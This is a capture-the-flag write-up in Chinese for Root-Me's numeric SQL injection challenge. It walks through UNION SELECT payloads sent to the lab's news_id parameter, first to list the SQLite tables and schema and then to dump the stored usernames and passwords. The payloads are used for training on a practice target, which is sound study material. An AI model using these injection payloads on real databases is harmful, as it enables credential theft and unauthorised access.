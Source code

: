 Root-Me [SQL injection - numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-numeric)
===

簡單的頁面，但有兩個籤頁 `Home`、`Administration`。(?

## 解題關鍵
1. SQL-i
2. SQLite
3. PHP

## 提示訊息
```
Retrieve the administrator password.
```

## 解題方法
該題跟 [33] SQL injection - string 有點像，首先還是簡單的測試一下，該頁面有提供登入功能，以及新聞查看功能，而新聞有三篇文章。  

簡單猜測大概是要用 SQL-i 取得管理員密碼，並登入取得 Flag，所以 SQL-i 的弱點應該不會在 `Login` 的部分。  

```
action=news&news_id=1 + 1  //Fail
action=news&news_id=1 - 1  //Success
```

透過上方的簡單判斷，該部分讀取的類型為 `int`，所以不必使用單引號就可以注入 SQL 指令。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=1 union select 1,2,name FROM sqlite_master  --
```

![](img/01.png)  

注入以上指令之後可以發現有兩個欄位 `news`、`users` 兩個，接著查看欄位的結構。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=-1 union select 1,2,sql FROM sqlite_master  --
```

![](img/02.png)  

接著秀出 `users` 資料表的 `username`、`password` 欄位值，解決該題。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=-1 union select 1,username,password FROM users  --
```

![](img/03.png)  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html  


## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)